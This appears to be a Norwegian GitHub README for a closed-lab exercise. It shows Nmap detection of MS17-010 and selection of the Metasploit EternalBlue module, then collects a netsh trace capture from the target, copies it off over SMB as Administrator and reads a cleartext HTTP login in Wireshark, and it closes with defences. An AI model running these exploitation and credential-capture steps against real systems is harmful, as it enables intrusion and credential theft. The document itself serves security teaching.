 # MS17-010 (EternalBlue) + nettverksspor — lab

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](LICENSE)
![Lab Only](https://img.shields.io/badge/Scope-Lab%20Only-blue)

Denne laben demonstrerer en helhetlig sikkerhetstest i et **lukket** miljø:
1) identifikasjon av sårbar **SMBv1 / MS17-010**,  
2) utnyttelse-flyt (funn → modulvalg → kjøring),  
3) innsamling av **nettverksspor** på Windows med `netsh trace`,  
4) eksport/konvertering til PCAP og **analyse i Wireshark** som viser en HTTP-innlogging i klartekst.

> **Etikk:** Dette er kun en kontrollert demo i eget labnett. Ikke test mot systemer du ikke eier eller har eksplisitt tillatelse til. Maskér alltid sensitive verdier (brukernavn, passord, tokens, interne IP-er).

---

## Overblikk

**Angriper (Kali) – IP**
![attacker ip](images/attacker-ip.png)

**Intern webapp – landingsside**
![web home](images/webapp-home.png)

**Intern webapp – innlogget oversikt**
![web messages](images/webapp-messages.png)

**Windows (mål/klient) – oversikt**
![windows admin](images/windows-admin.png)

### Mål med øvelsen
- **Verifisere sårbarhet**: Påvise MS17-010 på målmaskinen.
- **Utnytte kontrollert**: Demonstrere at sårbarheten kan gi kjøring/skall i lab.
- **Fange bevis**: Samle Windows-nettverksspor (ETL), eksportere og konvertere til PCAP/PCAPNG.
- **Analysere risiko**: Vise at en HTTP-pålogging kan leses i klartekst i Wireshark.

### Miljø og verktøy
- **Angriper**: Kali Linux  
- **Mål/klient**: Windows med SMBv1 aktivert (sårbar for MS17-010)  
- **Øvrig**: Windows-VM som besøker webappen
- **Verktøy**: Nmap, Metasploit, `netsh trace`, etl2pcapng, editcap, Wireshark

---

## A) Kartlegging og sårbarhetsindikasjon

**Nmap MS17-010 (NSE) – sårbar vert oppdaget**
```bash
nmap --script smb-vuln* -p 445 192.168.x.x
```
![nmap ms17-010](images/nmap-ms17-010.png)

**Metasploit i gang + modulvalg (EternalBlue)**
```bash
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.x.x
```
![msf banner](images/msfconsole-banner.png)  
![msf search](images/msf-search-eternalblue.png)

---

## B) Innsamling av nettverksspor på Windows

**Start sporing med `netsh trace` (ETL)**
```cmd
netsh trace start capture=yes tracefile=C:\50309\net_trc.etl level=verbose
```
![trace start](images/netsh-trace-start.png)

**Stopp og lagre sporet**
```cmd
netsh trace stop
```
![trace stop](images/netsh-trace-stop.png)

*Hvorfor `netsh trace`?* Det er innebygd i Windows og egner seg når du ikke kan installere Wireshark på målmaskinen. Det produserer en **.etl** som må konverteres før analyse i Wireshark.

---

## C) Hente ut og konvertere spor

**Eksfiltrer ETL-filen fra Windows**  
(her via SMB fra Kali – andre sikre metoder fungerer også)
```bash
smbclient //192.168.x.x/50309 -U Administrator
get net_trc.etl
```
![trace exfil](images/trace-exfil.png)

**Konverter `.etl` → `.pcapng` (Windows)**
```powershell
.\etl2pcapng.exe C:\...\net_trc.etl C:\...\net_trc.pcapng
```
![etl2pcapng](images/etl2pcapng-convert.png)

**(Valgfritt) `.pcapng` → `.pcap` for kompatibilitet**
```bash
editcap -F pcap ~/Desktop/net_trc.pcapng ~/Desktop/net_trc.pcap
```
![editcap](images/editcap-convert.png)

---

## D) Analyse i Wireshark

Filtrer på **HTTP** og finn POST-forespørselen. I denne labben går trafikken ukryptert (ingen TLS), og innloggingsdataene fremstår derfor i klartekst.

![wireshark creds](images/wireshark-credentials.png)

**Leseguide:**
- Øverst: HTTP-pakker (200/302/POST).  
- Midt: *Hypertext Transfer Protocol*-panelet med POST-felter (brukernavn/pass).  
- Høyre: hex-visning (ikke nødvendig å vise i klartekst dersom passord sladdes).

---

## Hvorfor teknikken virker (kort forklaring)

- **MS17-010 / EternalBlue** utnytter en feil i **SMBv1** som muliggjør fjernkodekjøring.  
- **`netsh trace`** fanger nettverks-I/O på verts-siden til en ETL. Med **etl2pcapng** (og ev. **editcap**) kan sporet åpnes i **Wireshark**.  
- **HTTP uten TLS** innebærer at **brukernavn og passord** kan leses i klartekst i nettverkssporet.

---

## Forsvar og avbøtende tiltak

**Host / OS**
- Deaktiver **SMBv1** og patch **MS17-010** (oppdater OS).  
- Begrens administrative delinger/tilganger; prinsippet om minste privilegium.

**Nettverk**
- Segmentér SMB til nødvendige soner; blokker uautorisert 445/tcp på tvers av segmenter.  
- Overvåk signaturer/indikatorer relatert til EternalBlue.

**Applikasjon / Bruker**
- Tving **HTTPS** (TLS) for all pålogging.  
- Innfør passordhygiene og MFA; detekter uvanlige innloggingsmønstre.

---

## Reproduser (høydenivå)

1. Kartlegg SMB på mål, bekreft MS17-010-indikasjon (Nmap NSE).  
2. Kjør en kontrollert utnyttelse i lab (Metasploit-flyt).  
3. Start `netsh trace`, gjenskape en **legitim** brukerhandling (HTTP-login), stopp sporet.  
4. Eksporter ETL, konverter til PCAP/PCAPNG, åpne i Wireshark og dokumentér funn.

> **Tips:** Maskér sensitive verdier i skjermbilder før publisering av repoet.

## Lisens
MIT
